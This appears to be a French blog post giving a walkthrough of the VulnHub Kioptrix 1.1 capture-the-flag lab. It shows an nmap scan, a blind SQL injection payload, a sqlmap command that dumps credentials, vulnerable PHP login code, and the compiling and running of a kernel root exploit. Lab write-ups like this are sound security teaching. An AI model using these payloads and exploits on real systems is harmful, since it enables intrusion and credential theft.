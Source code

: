```yaml
---
title: "Solution du CTF Kioptrix: 1.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


Après un temps... quelque peu plus long que prévu, *SourceForge* a pu régler les derniers bugs provoqués par sa mise à jour et je peux enfin poster à nouveaux des articles.  

Comme prévu les walkthroughs à venir concernent la saga *Kioptrix*, ici il s'agit de [l'épisode 1.1](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) qui est bien le second et non une mise à jour du premier.  

Web exploitation 101
--------------------

```
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            681/udp  status
|_  100024  1            684/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2018-02-13T20:41:56+00:00; +4h59m59s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
684/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
```

Le site web dispose d'une page de login très basique (champs user, password, bouton submit). *Wapiti* n'en fait qu'une bouchée :  

```
[*] Lancement du module blindsql
---
Faille d'injection SQL en aveugle dans http://192.168.1.39/index.php via une injection dans le paramètre uname
Evil request:
    POST /index.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    uname=%27%20or%20benchmark%2810000000%2CMD5%281%29%29%231&psw=letmein&btnLogin=Login
---
```

On enchaîne avec *sqlmap*, son meilleur ami :  

```bash
python sqlmap.py -u http://192.168.1.39/index.php --data "uname=Administrator&psw=test&btnLogin=Login" --risk 3 --level 5
```

Après avoir obtenu le nom de la base de données et des tables intéressantes on peut dumper le contenu de la table users avec *-D webapp -T users --dump*  

```
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

Avec ces identifiants on peut passer la page de login et on tombe sur une classique faille d'exécution de commande :  

![Kioptrix 1.1 ping command execution](/assets/img/kioptrix/kioptrix2.png)

On en profite pour chercher quelques identifiants :  

```php
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

20CentOS
--------

Les identifiants ne permettent pas d'accéder aux comptes présents (*harold* et *john*) mais comme c'est un *Kioptrix* il suffit de chercher le bon exploit pour le système :  

```
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
```

Ce qui nous amène à [une faille](https://www.exploit-db.com/exploits/9542/) découverte par *Tavis Ormandy* et *Julien Tinnes* touchant le kernel.  

```
bash-3.00$ gcc -o sploit sploit.c
gcc -o sploit sploit.c
sploit.c:109:28: warning: no newline at end of file
bash-3.00$ ./sploit
./sploit
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

Au suivant !  


*Published February 22 2018 at 12:13*
